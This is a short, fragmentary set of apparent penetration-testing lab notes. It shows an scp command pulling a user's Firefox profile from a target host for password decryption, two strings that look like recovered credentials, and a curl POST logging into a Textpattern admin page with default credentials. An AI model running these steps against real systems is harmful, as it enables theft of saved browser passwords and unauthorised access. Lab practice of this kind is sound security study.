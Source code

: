 scp -o StrictHostKeyChecking=no -r elliot@192.168.56.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default /home/kali/firefox_decrypt/



S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
wJ9`"Lemdv9[FEw-


curl -X POST \
  -d "login_username=admin&login_password=password&_txp_token=<token_aqui>" \
  http://192.168.55.219/textpattern/textpattern/index.php
